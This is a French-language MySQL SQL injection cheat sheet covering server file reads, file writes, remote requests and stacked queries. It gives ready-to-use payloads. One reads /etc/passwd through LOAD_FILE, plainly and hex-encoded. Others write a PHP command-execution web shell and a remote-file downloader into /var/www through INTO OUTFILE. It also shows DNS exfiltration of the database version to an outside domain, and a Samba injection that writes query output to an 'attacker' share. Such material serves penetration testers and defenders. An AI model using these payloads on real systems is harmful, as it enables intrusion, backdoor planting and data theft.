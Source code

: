 ## Lecture de fichier du serveur

Les fichiers locaux du système peuvent être lus au travers de MySQL si l’utilisateur dispose du privilège « FILE ».

- LOAD_FILE()

**Exemples :**
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE(0x2F6574632F706173737764);
**Remarques :**

- Les fichiers sont nécessairement sur le serveur.
- Le répertoire de base pour la fonction LOAD_FILE() est @@datadir
- Le fichier doit disposer des droits de lecture par l’utilisateur  MySQL
- La taille du fichier lu doit être inférieure à max_allowed_packet
- La valeur par défaut de @@max_allowed_packet vaut 1047552 octets.

## Écriture de fichier sur le serveur

Des fichiers peuvent être créés sur le serveur seulement si l’utilisateur dispose du privilège « FILE ».

- INTO OUTFILE/DUMPFILE

**Exemples :**
SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';

SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'

**Remarques :**

- Les fichiers déjà existants ne peuvent être réécris avec INTO OUTFILE
- INTO OUTFILE doit être la dernière instruction de la requête
- Il n’y a pas de méthode connue pour encoder le chemin d’accès au fichier, ainsi les quotes sont nécessaires.
- Le répertoire de destination du fichier à créer doit disposer des droits nécessaires pour la création d’un fichier par l’utilisateur de MySQL.

## Requêtes distantes

### Requêtes DNS externes

SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.bar.com\\'));

### Requêtes Samba

' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt

## Requêtes empilées

Les requêtes multiples et empilées sont disponibles sous MySQL. Cela dépend du driver utilisé pour communiquer avec la base de données.
